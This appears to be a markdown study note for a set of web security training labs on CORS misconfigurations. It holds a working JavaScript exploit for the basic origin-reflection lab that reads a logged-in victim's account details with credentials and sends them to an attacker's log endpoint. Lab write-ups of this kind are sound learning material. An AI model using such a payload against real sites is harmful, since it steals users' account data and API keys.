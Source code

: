 | #   | Lab Name                                              | Level        | Repeat | Link |
| --- | ----------------------------------------------------- | ------------ | ------ | ---- |
| 1   | CORS vulnerability with basic origin reflection       | APPRENTICE   |        | [click here](#cors-vulnerability-with-basic-origin-reflection)     |
| 2   | CORS vulnerability with trusted null origin           | APPRENTICE   |        |      |
| 3   | CORS vulnerability with trusted insecure protocols    | PRACTITIONER |        |      |
| 4   | CORS vulnerability with internal network pivot attack | EXPERT       |        |      |

## CORS vulnerability with basic origin reflection

title: CORS vulnerability with basic origin reflection
description: 
exploitation: 
```html
<script>
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true; req.send(); 
	function reqListener() { 
		location='/log?key='+this.responseText; 
	};
</script>
```
references: 
